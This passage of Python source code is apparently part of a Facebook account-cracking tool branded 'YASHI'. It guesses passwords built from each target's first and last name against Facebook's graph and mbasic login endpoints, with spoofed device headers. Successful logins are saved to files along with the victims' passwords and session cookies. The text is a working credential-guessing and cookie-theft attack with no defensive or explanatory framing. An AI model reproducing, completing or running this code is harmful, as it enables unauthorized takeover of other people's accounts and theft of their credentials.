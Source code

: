 'Host': 'graph.facebook.com',
'X-FB-Net-HNI': str(random.randint(20000, 40000)),
'X-FB-SIM-HNI': str(random.randint(20000, 40000)),
'X-FB-Connection-Type': 'MOBILE.LTE',
'X-Tigon-Is-Retry': 'False',
'x-fb-session-id': 'nid=jiZ+yNNBgbwC;pid=Main;tid=132;nc=1;fc=0;bc=0;cid=d29d67d37eca387482a8a5b740f84f62',
'x-fb-device-group': '5120',
'X-FB-Friendly-Name': 'ViewerReactionsMutation',
'X-FB-Request-Analytics-Tags': 'graphservice',
'X-FB-HTTP-Engine': 'Liger',
'X-FB-Client-IP': 'True',
'X-FB-Server-Cluster': 'True',
'x-fb-connection-token': 'd29d67d37eca387482a8a5b740f84f62',}
                q = session.post("https://b-graph.facebook.com/auth/login",data=data, headers=headers, allow_redirects=False).json()
                if 'session_key' in q:
                    ckkk = ";".join(i["name"]+"="+i["value"] for i in q["session_cookies"]);YASHIb = base64.b64encode(os.urandom(18)).decode().replace("=","").replace("+","_").replace("/","-");cookie = f"sb={YASHIb};{ckkk}"
                    print(f"\r{R} [YASHI-OK] {sid} | {ps} {S}")
                    oks.append(sid)
                    
                    open('/sdcard/YASHI_OK_ids_M2.txt','a').write(sid+'|'+ps+'\n');open('/sdcard/YASHI_iDs_COOKiEs_M2.txt','a').write(sid+'|'+ps+'|'+cookie+'\n')
                    break
                elif 'www.facebook.com' in q['error']['message']:
                    #  print(f"\r{A} [YASHI-CP] {sid} | {ps} {S}")
                    cps.append(sid)
                    open('/sdcard/YASHI_CP.txt','a').write(sid+'|'+ps+'\n')
                else:
                    continue
            loop+=1
        except requests.exceptions.ConnectionError:
            self.methodB(sid, name, ps)

    def methodD(self, sid, name, psw):
        global oks,cps,loop
        sys.stdout.write(f"\r {S}[YASHI] {loop} | M4 OK/CP {len(oks)}/{len(cps)} | {S}{'{:.0%}'.format(loop/float(len(self.id)))}{S}")
        sys.stdout.flush()
        fs = name.split(' ')[0]
        try:
            ls = name.split(' ')[1]
        except:
            ls = fs
        try:
            for pw in psw:
                ps = pw.replace('first',fs.lower()).replace('First',fs).replace('last',ls.lower()).replace('Last',ls).replace('Name',name).replace('name',name.lower())
                session=requests.Session()
                sua = random.choice(sagent)
                getlog = session.get(f'https://mbasic.facebook.com/login/device-based/password/?uid={sid}&flow=login_no_pin&refsrc=deprecated&_rdr')
                idpass ={"lsd":re.search('name="lsd" value="(.*?)"', str(getlog.text)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(getlog.text)).group(1),"uid":sid,"next":"https://mbasic.facebook.com/login/save-device/","flow":"login_no_pin","pass":ps,}
                session.headers = {}